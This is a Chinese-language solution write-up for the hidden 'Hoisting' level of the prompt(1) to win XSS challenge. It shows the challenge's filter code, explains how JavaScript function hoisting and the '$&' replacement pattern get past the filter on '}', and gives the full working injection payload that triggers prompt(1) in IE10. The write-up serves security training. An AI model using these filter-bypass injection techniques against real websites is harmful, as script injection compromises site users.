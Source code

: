 ## [[prompt(1) to win](http://prompt.ml)] [[Level H1 – Hoisting](http://prompt.ml/-1)] [[解题报告](http://exp-blog.com/2019/06/09/pid-3891/)]

------

## 题目（隐藏关卡）

```javascript
function escape(input) {
    // WORLD -1

    // strip off certain characters from breaking conditional statement
    input = input.replace(/[}<]/g, '');

    return '                                                     \n\
<script>                                                         \n\
    if (history.length > 1337) {                                 \n\
        // you can inject any code here                          \n\
        // as long as it will be executed                        \n\
        {{injection}}                                            \n\
    }                                                            \n\
</script>                                                        \n\
    '.replace('{{injection}}', input);
}
```

------------

## 分析

从代码可以知道，注入点在 `if` 内部，很自然有三种思路：

- 使得 `history.length > 1337` 条件成立
- 闭合 `if`
- 闭合 `<script>`

但是由于 `}` 和 `<` 被过滤了，因此不论闭合 `if` 还是 `<script>` 都是不可能的，剩下的方法就是想办法令到 `history.length > 1337` 条件成立。

------------

## 前置知识

- [history](http://www.w3school.com.cn/jsref/dom_obj_history.asp)
- [Function length](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Function/length)
- [Function Hoisting](https://elegantcode.com/2011/03/24/basic-javascript-part-12-function-hoisting/)
- [String.prototype.replace()](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

------------

## 解题思路

这三个知识点是这题的解题关键。

关于 `history` 对象，需要知道的是它不可被直接读写，目前唯一保留的 API 只有 4 个：`length` 、 `back()` 、 `forward()` 、 `go()` 。

而在本题中用到的 `length` ，它会在首次打开浏览器窗口的时候置 0 ，每访问一个新得页面自动 +1 。但是这个特性并不能被利用来解题，原因是 `length` 的上限值是 50，而条件中的目标值是 1337 ，即使我们预先访问了 1337 个页面， `length` 的值还是 50 ，仍然无法绕过条件。

------------


但这并不意味着毫无办法了：因为 `history` 说到底就是一个全局对象，我们可以构造一个同名的 `history` 对象（必定是局部对象）实现对全局对象的覆盖。同时只要所构造的这个 `history` 局部对象同样具备 `length` 属性，且可以被我们自由控制，那么就能实现 `if` 条件绕过了。

既然可以使用局部对象覆盖，那么就有两个选择：

- 局部变量（如数组）：可以初始化数组的元素个数控制 `length` 属性
- 局部函数 ：可以通过声明入参的个数控制 `length` 属性

但是不要忘了，我们的注入点是在 `if` 里面的，亦即不管我们声明 `history` 局部函数、还是声明 `history` 局部变量，都是在 `history.length` 条件后面的位置，亦即会出现 **先使用后声明** 的语法错误。

------------


而为了解决这个问题，可以利用 Javascript 中的 Hoisting （提升）机制：在早期的 Javascript 编译器中，会把所有出现在代码中的 变量声明 或 函数声明，全部移到代码的开头。

不过 变量提升 和 函数提升 之间还是存在区别的：

- 变量提升：仅仅是把 声明变量的语句 提升到代码的开头，但是初始化语句还是保留在原有位置不变的，如果在初始化语句之前就使用了该变量，依然会出现语法错误（变量未定义）
- 函数提升：函数不存在初始化的说法，从而因为提升机制，使得函数只要在任意地方声明过一次，就可以在任何位置调用。

回到这题，由于注入点在 `if` 里面，所有我们应该选择函数提升，而不是变量提升。

> Javascript 的 Hoisting 机制仅在早期的编译器支持，现在 2019 年绝大部分浏览器都不会这样做了，经测试只有 IE10 还支持这种机制，换言之要用 Hoisting 机制解题，只能使用 IE10 浏览器。

------------

## 构造 payload

根据前面的思路，我们构造 payload 的方法为：在注入点声明一个 `history` 局部函数，函数入参数量至少为 1338 ，就能使得 `if` 条件成立，从而执行我们注入的代码。

例如 payload 为：

```javascript
funcation history(a1, a2, a3, ......, a1338) { /* any codes */ } prompt(1);
```

不过这个 payload 有个问题：就是我们要构造 `history` 函数，就需要使用到花括号 `{ }` ，但是 `}` 已经被题目过滤了 ！换言之我们不能直接输入 `}` 。

不能直接输入，但是可以间接输入。

绕过的方法需要利用到题目 JS 的 `replace('{{injection}}', input)` 函数的语法，第二个由我们控制的参数 input 是可以插入特殊变量名以达到某些效果的（详见 [这里](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/String/replace) ）：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/01.png)

而我们要使用的特殊变量名，就是

```
$&      // 这个变量名的效果是 【插入当前匹配的子串自身】。
```

就这题而言，因为 `replace('{{injection}}', input)` 被匹配的子串必定是 `{{injection}}`，利用 `$&` 将其插入到我们的 payload ，就能获得两对花括号 `{{ }}` 了，而里面的一对花括号会被编译器认为是局部代码块，因此并不会影响语法。

所以我们应该构造的 payload 为 ：

```javascript
funcation history(a1, a2, a3, ......, a1338) $& prompt(1);
```

当这个 payload 经过题目的 `replace('{{injection}}', input)` 函数处理，就会得到我们想要的效果：

```javascript
<script>
    if (history.length > 1337) {
        funcation history(a1, a2, a3, ......, a1338) {{injection}} prompt(1);
    }
</script>
```

------------

## 完成挑战

最后，输入这个 payload 到 IE10 即可完成挑战：

```javascript
function history(a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,a12,a13,a14,a15,a16,a17,a18,a19,a20,a21,a22,a23,a24,a25,a26,a27,a28,a29,a30,a31,a32,a33,a34,a35,a36,a37,a38,a39,a40,a41,a42,a43,a44,a45,a46,a47,a48,a49,a50,a51,a52,a53,a54,a55,a56,a57,a58,a59,a60,a61,a62,a63,a64,a65,a66,a67,a68,a69,a70,a71,a72,a73,a74,a75,a76,a77,a78,a79,a80,a81,a82,a83,a84,a85,a86,a87,a88,a89,a90,a91,a92,a93,a94,a95,a96,a97,a98,a99,a100,a101,a102,a103,a104,a105,a106,a107,a108,a109,a110,a111,a112,a113,a114,a115,a116,a117,a118,a119,a120,a121,a122,a123,a124,a125,a126,a127,a128,a129,a130,a131,a132,a133,a134,a135,a136,a137,a138,a139,a140,a141,a142,a143,a144,a145,a146,a147,a148,a149,a150,a151,a152,a153,a154,a155,a156,a157,a158,a159,a160,a161,a162,a163,a164,a165,a166,a167,a168,a169,a170,a171,a172,a173,a174,a175,a176,a177,a178,a179,a180,a181,a182,a183,a184,a185,a186,a187,a188,a189,a190,a191,a192,a193,a194,a195,a196,a197,a198,a199,a200,a201,a202,a203,a204,a205,a206,a207,a208,a209,a210,a211,a212,a213,a214,a215,a216,a217,a218,a219,a220,a221,a222,a223,a224,a225,a226,a227,a228,a229,a230,a231,a232,a233,a234,a235,a236,a237,a238,a239,a240,a241,a242,a243,a244,a245,a246,a247,a248,a249,a250,a251,a252,a253,a254,a255,a256,a257,a258,a259,a260,a261,a262,a263,a264,a265,a266,a267,a268,a269,a270,a271,a272,a273,a274,a275,a276,a277,a278,a279,a280,a281,a282,a283,a284,a285,a286,a287,a288,a289,a290,a291,a292,a293,a294,a295,a296,a297,a298,a299,a300,a301,a302,a303,a304,a305,a306,a307,a308,a309,a310,a311,a312,a313,a314,a315,a316,a317,a318,a319,a320,a321,a322,a323,a324,a325,a326,a327,a328,a329,a330,a331,a332,a333,a334,a335,a336,a337,a338,a339,a340,a341,a342,a343,a344,a345,a346,a347,a348,a349,a350,a351,a352,a353,a354,a355,a356,a357,a358,a359,a360,a361,a362,a363,a364,a365,a366,a367,a368,a369,a370,a371,a372,a373,a374,a375,a376,a377,a378,a379,a380,a381,a382,a383,a384,a385,a386,a387,a388,a389,a390,a391,a392,a393,a394,a395,a396,a397,a398,a399,a400,a401,a402,a403,a404,a405,a406,a407,a408,a409,a410,a411,a412,a413,a414,a415,a416,a417,a418,a419,a420,a421,a422,a423,a424,a425,a426,a427,a428,a429,a430,a431,a432,a433,a434,a435,a436,a437,a438,a439,a440,a441,a442,a443,a444,a445,a446,a447,a448,a449,a450,a451,a452,a453,a454,a455,a456,a457,a458,a459,a460,a461,a462,a463,a464,a465,a466,a467,a468,a469,a470,a471,a472,a473,a474,a475,a476,a477,a478,a479,a480,a481,a482,a483,a484,a485,a486,a487,a488,a489,a490,a491,a492,a493,a494,a495,a496,a497,a498,a499,a500,a501,a502,a503,a504,a505,a506,a507,a508,a509,a510,a511,a512,a513,a514,a515,a516,a517,a518,a519,a520,a521,a522,a523,a524,a525,a526,a527,a528,a529,a530,a531,a532,a533,a534,a535,a536,a537,a538,a539,a540,a541,a542,a543,a544,a545,a546,a547,a548,a549,a550,a551,a552,a553,a554,a555,a556,a557,a558,a559,a560,a561,a562,a563,a564,a565,a566,a567,a568,a569,a570,a571,a572,a573,a574,a575,a576,a577,a578,a579,a580,a581,a582,a583,a584,a585,a586,a587,a588,a589,a590,a591,a592,a593,a594,a595,a596,a597,a598,a599,a600,a601,a602,a603,a604,a605,a606,a607,a608,a609,a610,a611,a612,a613,a614,a615,a616,a617,a618,a619,a620,a621,a622,a623,a624,a625,a626,a627,a628,a629,a630,a631,a632,a633,a634,a635,a636,a637,a638,a639,a640,a641,a642,a643,a644,a645,a646,a647,a648,a649,a650,a651,a652,a653,a654,a655,a656,a657,a658,a659,a660,a661,a662,a663,a664,a665,a666,a667,a668,a669,a670,a671,a672,a673,a674,a675,a676,a677,a678,a679,a680,a681,a682,a683,a684,a685,a686,a687,a688,a689,a690,a691,a692,a693,a694,a695,a696,a697,a698,a699,a700,a701,a702,a703,a704,a705,a706,a707,a708,a709,a710,a711,a712,a713,a714,a715,a716,a717,a718,a719,a720,a721,a722,a723,a724,a725,a726,a727,a728,a729,a730,a731,a732,a733,a734,a735,a736,a737,a738,a739,a740,a741,a742,a743,a744,a745,a746,a747,a748,a749,a750,a751,a752,a753,a754,a755,a756,a757,a758,a759,a760,a761,a762,a763,a764,a765,a766,a767,a768,a769,a770,a771,a772,a773,a774,a775,a776,a777,a778,a779,a780,a781,a782,a783,a784,a785,a786,a787,a788,a789,a790,a791,a792,a793,a794,a795,a796,a797,a798,a799,a800,a801,a802,a803,a804,a805,a806,a807,a808,a809,a810,a811,a812,a813,a814,a815,a816,a817,a818,a819,a820,a821,a822,a823,a824,a825,a826,a827,a828,a829,a830,a831,a832,a833,a834,a835,a836,a837,a838,a839,a840,a841,a842,a843,a844,a845,a846,a847,a848,a849,a850,a851,a852,a853,a854,a855,a856,a857,a858,a859,a860,a861,a862,a863,a864,a865,a866,a867,a868,a869,a870,a871,a872,a873,a874,a875,a876,a877,a878,a879,a880,a881,a882,a883,a884,a885,a886,a887,a888,a889,a890,a891,a892,a893,a894,a895,a896,a897,a898,a899,a900,a901,a902,a903,a904,a905,a906,a907,a908,a909,a910,a911,a912,a913,a914,a915,a916,a917,a918,a919,a920,a921,a922,a923,a924,a925,a926,a927,a928,a929,a930,a931,a932,a933,a934,a935,a936,a937,a938,a939,a940,a941,a942,a943,a944,a945,a946,a947,a948,a949,a950,a951,a952,a953,a954,a955,a956,a957,a958,a959,a960,a961,a962,a963,a964,a965,a966,a967,a968,a969,a970,a971,a972,a973,a974,a975,a976,a977,a978,a979,a980,a981,a982,a983,a984,a985,a986,a987,a988,a989,a990,a991,a992,a993,a994,a995,a996,a997,a998,a999,a1000,a1001,a1002,a1003,a1004,a1005,a1006,a1007,a1008,a1009,a1010,a1011,a1012,a1013,a1014,a1015,a1016,a1017,a1018,a1019,a1020,a1021,a1022,a1023,a1024,a1025,a1026,a1027,a1028,a1029,a1030,a1031,a1032,a1033,a1034,a1035,a1036,a1037,a1038,a1039,a1040,a1041,a1042,a1043,a1044,a1045,a1046,a1047,a1048,a1049,a1050,a1051,a1052,a1053,a1054,a1055,a1056,a1057,a1058,a1059,a1060,a1061,a1062,a1063,a1064,a1065,a1066,a1067,a1068,a1069,a1070,a1071,a1072,a1073,a1074,a1075,a1076,a1077,a1078,a1079,a1080,a1081,a1082,a1083,a1084,a1085,a1086,a1087,a1088,a1089,a1090,a1091,a1092,a1093,a1094,a1095,a1096,a1097,a1098,a1099,a1100,a1101,a1102,a1103,a1104,a1105,a1106,a1107,a1108,a1109,a1110,a1111,a1112,a1113,a1114,a1115,a1116,a1117,a1118,a1119,a1120,a1121,a1122,a1123,a1124,a1125,a1126,a1127,a1128,a1129,a1130,a1131,a1132,a1133,a1134,a1135,a1136,a1137,a1138,a1139,a1140,a1141,a1142,a1143,a1144,a1145,a1146,a1147,a1148,a1149,a1150,a1151,a1152,a1153,a1154,a1155,a1156,a1157,a1158,a1159,a1160,a1161,a1162,a1163,a1164,a1165,a1166,a1167,a1168,a1169,a1170,a1171,a1172,a1173,a1174,a1175,a1176,a1177,a1178,a1179,a1180,a1181,a1182,a1183,a1184,a1185,a1186,a1187,a1188,a1189,a1190,a1191,a1192,a1193,a1194,a1195,a1196,a1197,a1198,a1199,a1200,a1201,a1202,a1203,a1204,a1205,a1206,a1207,a1208,a1209,a1210,a1211,a1212,a1213,a1214,a1215,a1216,a1217,a1218,a1219,a1220,a1221,a1222,a1223,a1224,a1225,a1226,a1227,a1228,a1229,a1230,a1231,a1232,a1233,a1234,a1235,a1236,a1237,a1238,a1239,a1240,a1241,a1242,a1243,a1244,a1245,a1246,a1247,a1248,a1249,a1250,a1251,a1252,a1253,a1254,a1255,a1256,a1257,a1258,a1259,a1260,a1261,a1262,a1263,a1264,a1265,a1266,a1267,a1268,a1269,a1270,a1271,a1272,a1273,a1274,a1275,a1276,a1277,a1278,a1279,a1280,a1281,a1282,a1283,a1284,a1285,a1286,a1287,a1288,a1289,a1290,a1291,a1292,a1293,a1294,a1295,a1296,a1297,a1298,a1299,a1300,a1301,a1302,a1303,a1304,a1305,a1306,a1307,a1308,a1309,a1310,a1311,a1312,a1313,a1314,a1315,a1316,a1317,a1318,a1319,a1320,a1321,a1322,a1323,a1324,a1325,a1326,a1327,a1328,a1329,a1330,a1331,a1332,a1333,a1334,a1335,a1336,a1337,a1338) $& prompt(1);
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%20H1%20-%20Hoisting/imgs/02.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
